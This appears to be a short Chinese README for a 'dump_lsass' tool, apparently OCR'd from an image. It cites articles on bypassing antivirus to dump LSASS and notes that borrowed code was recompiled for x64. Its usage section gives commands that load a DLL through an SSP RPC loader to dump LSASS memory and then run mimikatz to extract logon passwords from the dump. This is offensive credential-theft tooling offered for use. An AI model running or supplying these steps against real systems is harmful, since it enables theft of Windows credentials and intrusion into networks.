 # dump_lsass
# 参考

[https://www.4hou.com/posts/y6jW](https://www.4hou.com/posts/y6jW)

[这是一篇“不一样”的真实渗透测试案例分析文章](https://blog.ateam.qianxin.com/post/zhe-shi-yi-pian-bu-yi-yang-de-zhen-shi-shen-tou-ce-shi-an-li-fen-xi-wen-zhang/#442-%E7%BB%95%E8%BF%87%E5%8D%A1%E5%B7%B4%E6%96%AF%E5%9F%BA%E6%8A%93lsass%E4%B8%AD%E7%9A%84%E5%AF%86%E7%A0%81)

[https://gist.github.com/xpn/c7f6d15bf15750eae3ec349e7ec2380e](https://gist.github.com/xpn/c7f6d15bf15750eae3ec349e7ec2380e)

对于代码做了部分修改，使用vs2019编译，选择x64编译
# 使用方法
```
ssp_rpc_loader.exe Dll1.dll
dir c:\windows\temp
mimikatz.exe "sekurlsa::minidump 1.bin" "sekurlsa::logonPasswords full" "exit"
```
